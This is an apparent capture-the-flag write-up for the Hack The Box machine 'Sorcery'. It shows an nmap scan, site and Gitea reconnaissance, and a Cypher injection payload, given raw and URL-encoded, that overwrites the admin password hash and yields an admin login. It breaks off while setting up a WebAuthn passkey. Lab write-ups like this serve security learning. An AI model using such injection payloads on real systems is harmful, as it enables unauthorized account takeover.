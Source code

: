 # Nmap
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Sorcery]
└─$ nmap -sC -sV -Pn 10.10.11.73 -oN ./nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-23 14:14 UTC
Nmap scan report for 10.10.11.73
Host is up (0.44s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 79:93:55:91:2d:1e:7d:ff:f5:da:d9:8e:68:cb:10:b9 (ECDSA)
|_  256 97:b6:72:9c:39:a9:6c:dc:01:ab:3e:aa:ff:cc:13:4a (ED25519)
443/tcp open  ssl/http nginx 1.27.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.27.1
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| ssl-cert: Subject: commonName=sorcery.htb
| Not valid before: 2024-10-31T02:09:11
|_Not valid after:  2052-03-18T02:09:11
|_http-title: 400 The plain HTTP request was sent to HTTPS port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.66 seconds
```
After port scan, we can found this machine is protected by `WAF`, some defenders or maybe the docker conditioner.

When I check the page `https://10.10.11.73`, then I would be redirected to `https://sorcery.htb`

So let's add `sorcery.htb` into our `/etc/hosts`

# Page check
**socery.htb**
![](images/Pasted%20image%2020250723141908.png)
From the `our repo` button, it would direct to `https://git.sorcery.htb/nicole_sullivan/infrastructure`

So let's add `git.sorcery.htb` to our `/etc/hosts`

**git.sorcery.htb**
![](images/Pasted%20image%2020250723142033.png)
We can find the version of `Gitea` is `1.22.1` and the Remote Repository of `infrastructure`
I remember version of  `Gitea 1.22.0` has the `XSS` vulnerable with the `CVE-2024-6886`, but it was fixed in the version `1.22.1`

From the issues page, we found there are some `database statement injection` not fixed completely
![](images/Pasted%20image%2020250723142553.png)
So let's check the source code of the backends
![](images/Pasted%20image%2020250723145234.png)
I just found some paths of certification, seems  not useful here.

Let's come back to `socery.htb`'s register page
![](images/Pasted%20image%2020250723150430.png)
We don't have the register key, so let's try to make a test account to check the dashboard page
![](images/Pasted%20image%2020250723150543.png)

The payload would be 
```
https://sorcery.htb/dashboard/store/607b7592-4aff-49bd-9242-1bafd2f15c6d"}) WITH result MATCH (u:User {username: 'admin'}) SET u.password = '$argon2id$v=19$m=32768,t=2,p=1$c29tZXNhbHQ$jg6VX/nBKsGnE6P0lfPr6jNbdhQiKH3PRsrj2E5gHGA' RETURN result { .*, description: 'admin password updated' } //
```
We need to encode it with URL encode.
```
https://sorcery.htb/dashboard/store/607b7592-4aff-49bd-9242-1bafd2f15c6d%22%7d)%20WITH%20result%20MATCH%20(u%3aUser%20%7busername%3a%20'admin'%7d)%20SET%20u.password%20%3d%20'%24argon2id%24v%3d19%24m%3d32768%2ct%3d2%2cp%3d1%24c29tZXNhbHQ%24jg6VX%2fnBKsGnE6P0lfPr6jNbdhQiKH3PRsrj2E5gHGA'%20RETURN%20result%20%7b%20.*%2c%20description%3a%20'admin%20password%20updated'%20%7d%20%2f%2f
```
Then we can login in by `admin:admin123`
![](images/Pasted%20image%2020250723160510.png)
When I want to come to debug page, it hints me to need a passkey
![](images/Pasted%20image%2020250723160630.png)
We have to use the `chrome` to register a passkey
Open the google tool console, press the `WebAuthn`
![](images/Pasted%20image%2020250723161246.png)